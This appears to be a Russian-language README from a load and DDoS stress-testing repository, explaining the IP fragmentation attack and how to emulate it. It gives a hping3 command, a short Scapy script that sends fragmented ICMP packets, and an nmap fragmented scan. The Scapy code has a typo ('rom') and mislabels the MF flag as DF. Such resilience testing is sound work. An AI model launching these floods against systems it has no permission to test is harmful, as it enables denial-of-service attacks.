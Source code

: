 # IP_FRAG Attack

Тип атаки, при которой злоумышленник отправляет фрагментированные IP-пакеты, занимающие значительные ресурсы для их сборки и обработки. Проведение нагрузочного тестирования с использованием IP FRAG ATTACK позволяет выявить уязвимости в обработке фрагментированных пакетов системой, оценить ее степень устойчивости к такого рода атакам и принять меры по усилению защиты.

#### Методы реализации
Для эмуляции IP FRAG Attack можно использовать такие инструменты, как hping3, Scapy, nmap, metasploit:
```
hping3 TARGET_IP --icmp --frag 16
```
К сожалению, инструмент hping3 не предоставляет функциональности для установки отправки определенного количества пакетов за определенное время (например, за час).


```
rom scapy.all import * 
 
# Создание фрагментированного IP-пакета 
ip = IP(dst="192.168.1.1", flags=1, frag=0, id=1000)  # Устанавливаем флаг DF (Don't Fragment) и идентификатор 
icmp = ICMP()  # Создаем ICMP пакет для вложения в IP-пакет 
 
packet = ip/icmp  # Собираем IP пакет с ICMP заголовком 
 
# Фрагментирование пакета 
fragments = fragment(packet, fragsize=100) 
 
# Отправка фрагментированных пакетов 
send(fragments) 
```

```
nmap -sS -p 80 -f 192.168.1.1
```

В [jmeter](https://github.com/Fireng/Load-Stress-DDoS-Test/blob/main/IP_FRAG/IP_FRAG.jmx) описан метод с использованием nmap
![IP Frag Attack example img](https://github.com/Fireng/Load-Stress-DDoS-Test/blob/main/assets/images/IP_FRAG_Exmp.png)
